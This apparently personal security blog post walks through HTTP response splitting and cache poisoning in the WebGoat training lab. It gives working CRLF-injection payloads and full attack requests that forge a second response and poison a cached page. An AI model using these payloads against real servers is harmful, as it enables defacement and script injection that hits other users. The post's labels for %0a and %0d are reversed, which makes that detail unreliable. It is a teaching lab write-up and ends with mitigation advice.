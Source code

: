 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 1"
date:   2017-01-24 00:01:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# HTTP Response Splitting
HTTP Response splitting is an attack that can be performed on a webserver that does not properly implement sanitization of user input on webpage forms. The specific exploitation that can be performed involves the use of carriage returns (%0a in HTML) and linefeeds (%0d in HTML). 

Normally, form entry is passed in a webpage's (client control) request to the webserver. The form fields are then appended onto the request header like so:

```
GET http://website.com/form_page?form1=field1&form2=field2 HTTP/1.1
<Rest of the request>
```

So, we can control part of the request with header data that we enter into our forms. This might not seem immediately malicious, but let's take a look at the WebGoat example:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&language=test
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

language=test&SUBMIT=Search%21
```

So in our form we simply entered "test". The POST request URL looks like we are going to be redirected to another resource on the webserver. Let's look at the server response and see what the next step is going to be:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 0
Via: 1.1 127.0.1.1
Vary: Accept-Encoding
Connection: close
```

Alright, so we are being redirected to the location specified by the 'Location' header in the response. Or more clearly:

```
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
```

Aha! One thing should pop out at us here, and that is the fact that our form input ("test") is found sitting right at the end of the Location header. Now while this request takes us to the page intended by the server, we can manipulate this behaviour by abusing the response parsing mechanism, or the webcache.

The webcache sits between the user and the webapplication, parsing responses from the webapplication to hand back to users. The exploit that we are abusing lies in tricking the webcache to hand back two responses from a single request. If we are allowed to insert newline characters(%0a on Linux, %0a%0d on Windows) into our request, when the webcache handles the redirect response we can trick it into thinking that there should be two responses by truncating the original response and adding another completely attacker-controlled response to the webcache.

An example form exploit input could be like so (%20 is a URL-encoded space):

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

The first section truncates the original intended response by specifying a false Content-Length header. URL-decoded, the redirect response now looks like so:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0
```

The response is considered complete at this point. However, we have appended some extra data, that URL-decoded looks like so:

```
HTTP/1.1 200 OK
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now, the webcache only saw one request sent to the webserver by us (the attacker). Therefore our redirect is handled normally and we are served the cached response, which is the redirect to the location specified in the Location header. However, there is another response that was created from our first request. Using this response combined with some knowledge of how the webcache and webserver interact, we can craft an attack that could affect any other users of the resource.

# Cache Poisoning
So we have previously shown that we can split a single request into two separate responses, the second of which is completely attacker controlled. Now we can manipulate a mechanism that the webserver and webcache use for serving content in order to expose our crafted response to the maximum number of target users of the website.

Remember that in our first HTTP splitting example, the truncated response for the redirect resource was matched to our intial request. This left our payload response "on the wire" so to speak, as there was not a matching request for this resource. In a naive attack, the next request for a resource would be matched to our payload response and the payload would be served to whoever sent that request. However, we want to maximize the impact of our attack. Enter caching.

Caching is a way that the webserver serves the most up-to-date version of a resource to users of the site. Any requests that are sent for a resource on a webserver are served the cached version of the resource. Using HTTP splitting, we can perform a "cache poisoning" attack, in which we replace the expected cache of a resource with our malicious version. This is done by adding a "Last-Modified" header to the forged request with a date in the future.

So, now our attack looks like this:

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aLast-Modified:%20Fri,%2020%20Jan%202018%2013:35:00%20EST%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

which translates to the following responses:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0

HTTP/1.1 200 OK
Last-Modified: Fri, 20 Jan 2018 13:35:00 EST
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now during this attack we send two requests. The first request is our malicious form, and the second request is for the webserver resource that we would like to replace with our malicious response, like so:

Request 1:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=foobar%0aContent-Length:%2043%0a%3Chtml%3E123456789012345678901234567890%3C/html%3E
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 271

language=test%250aContent-Length%3A%25200%250a%250aHTTP%2F1.1%2520200%2520OK%250aLast-Modified%3A%2520Fri%2C%252020%2520Jan%25202018%252013%3A35%3A00%2520EST%250aContent-Type%3A%2520text%2Fhtml%250aContent-Length%3A%252017%250a%3Chtml%3Epwnd%3C%2Fhtml%3E&SUBMIT=Search%21
```

Request 2:

```
GET /WebGoat/index.html HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
```

When we send the malicious request, it is matched to the original redirect response. Now we have another response waiting to match with a request. Now our second request is received and matched with our malicious response. The webcache sees that the "Last-Modified" header is present in the response, and the date is more recent than the existing cached version, so it replaces the cache for the requested resource ("index.hmtl") with the malicious response ("<html>pwnd</html>").

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_1/part1pwnd.jpg">

This can be much more serious than a simple defacement like we performed here. Alternatively, an attacker could append JavaScript to perform cross-site scripting attacks to steal cookies or other sensitive user data. In order to prevent this attack, any user-controlled data that can end up in a request header needs to be sanitized to prevent insertion of carriage-return and linefeed characters.

### Resources

1 [HTTP Response Splitting Whitepaper][http-splitting-whitepaper]

2 [OWASP HTTP Response Splitting][owasp-splitting]

[http-splitting-whitepaper]:https://dl.packetstormsecurity.net/papers/general/whitepaper_httpresponse.pdf
[owasp-splitting]:https://www.owasp.org/index.php/HTTP_Response_Splitting